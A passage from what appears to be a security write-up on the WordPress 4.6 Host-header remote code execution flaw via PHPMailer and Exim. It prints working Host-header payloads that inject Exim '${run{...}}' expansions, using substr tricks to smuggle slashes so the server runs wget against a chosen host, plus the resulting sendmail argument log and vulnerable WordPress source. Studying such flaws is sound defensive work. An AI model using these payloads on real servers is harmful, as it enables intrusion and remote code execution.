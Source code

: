 As we can see, '$from_email' is being crafted using the 'SERVER_NAME' that actually comes from the cited HTTP HOST Header.

Natural thing to do will be testing the same payload we did in previous PoC but erasing the "email@" part from it. Let's see what happens (we need to use some script or proxy tool):

Payload:
dd(tmp1 -be ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}} tmp2)

![](/images/wordpress46request.png)

Bad request is being responded. Apache Server will not let us to put that HOSTNAME Header with '/' symbols. Fortunately, again, LegalHackers have resolved this problem by studying the env. variables from exim4 (more information in suggested posts). Once again we perform the Request with the valid payload:

```bash
Payload:
ddd.com(tmp1 -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}192.168.122.154${substr{0}{1}{$spool_directory}}test}} tmp2)

Commandebugger:
Received: /usr/sbin/sendmail
Received: -t
Received: -i
Received: -fwordpress@ddd.com(tmp1
Received: -be
Received: ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}192.168.122.154${substr{0}{1}{$spool_directory}}test}}
Received: tmp2)
Received:
```

It is important to point that modern versions of Apache Server will not let to put in HOSTNAME even spaces...so the Payload will not work in modern versions of it.

Now last question is: **Why this doesn't work in previous versions of Wordpress? Why only 4.6?**

wordpress4.5/wp-includes/pluggable.php:
```php
	if ( !isset( $from_email ) ) {
		// Get the site domain and get rid of www.
		$sitename = strtolower( $_SERVER['SERVER_NAME'] );
		if ( substr( $sitename, 0, 4 ) == 'www.' ) {
			$sitename = substr( $sitename, 4 );
		}

		$from_email = 'wordpress@' . $sitename;
	}

	$phpmailer->From = apply_filters( 'wp_mail_from', $from_email );

```
